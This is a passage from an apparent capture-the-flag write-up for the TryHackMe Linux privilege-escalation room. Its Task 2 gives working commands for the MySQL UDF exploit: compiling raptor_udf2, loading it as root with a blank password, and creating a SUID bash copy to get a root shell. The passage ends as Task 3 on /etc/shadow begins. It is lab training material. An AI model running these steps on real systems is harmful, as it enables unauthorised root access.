 ```yaml
---
description: 'https://tryhackme.com/room/linuxprivesc'
---
```


# \[Writeups\] THM - Linux PrivEsc

## \[Task 1\] Deploy the Vulnerable Debian VM

**\#2 Run the "id" command. What is the result?**

```text
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
```

## \[Task 2\] ****Service Exploits

The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a [popular exploit](https://www.exploit-db.com/exploits/1518) that takes advantage of User Defined Functions \(UDFs\) to run system commands as root via the MySQL service.

Change into the /home/user/tools/mysql-udf directory:

`cd /home/user/tools/mysql-udf`

Compile the raptor\_udf2.c exploit code using the following commands:

`gcc -g -c raptor_udf2.c -fPIC  
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc`  


Connect to the MySQL service as the root user with a blank password:

`mysql -u root`  


Execute the following commands on the MySQL shell to create a User Defined Function \(UDF\) "do\_system" using our compiled exploit:

`use mysql;  
create table foo(line blob);  
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));  
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';  
create function do_system returns integer soname 'raptor_udf2.so';`

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

`select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');`

Exit out of the MySQL shell \(type **exit** or **\q** and press **Enter**\) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

**Remember to remove the /tmp/rootbash executable and exit out of the root shell before continuing as you will create this file again later in the room!**

`rm /tmp/rootbash  
exit`

## \[Task 3\] Weak File Permissions - Readable /etc/shadow

The /etc/shadow file contains user password hashes and is usually readable only by the root user.



